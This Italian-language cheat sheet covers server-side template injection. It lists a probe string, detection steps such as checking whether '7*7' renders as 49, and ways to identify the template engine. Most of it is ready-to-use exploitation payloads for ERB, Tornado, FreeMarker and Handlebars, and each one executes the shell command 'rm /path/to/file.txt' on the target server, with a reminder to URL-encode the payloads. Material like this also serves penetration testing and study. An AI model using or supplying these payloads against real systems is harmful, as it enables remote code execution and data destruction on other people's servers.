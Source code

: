 # Caratteri di verifica:
```
${{<%[%'"}}%\
```

# Detection
* Usare i simboli base per vedere se qualcuno causa qualche effetto indisiderato (come rendere invisibile una parte di testo);
* Inserire fra l'apertura e la chiusura 7*7. Se viene stampato 49 allora è responsive e vulnerabile;

# Identification
* Causare uno stacktrace per leggere il nome del template engine usato;
* Trovare qualche informazione nel codice sorgente.

# Exploitation
(ricordati di codificare i payload in URL syntax)
## ERB
```
<%= system("rm /path/to/file.txt") %>
```

## Tornado
```
{% import os %}
{{os.system('rm /path/to/file.txt')
```

## FreeMarker
```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /path/to/file.txt") }
```

## Handlebars
```
{{this}}
```
Vulnerabile se ritorna:
```
[Object object]
```


- Oppure

```
Ciao, funziona!{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /path/to/file.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
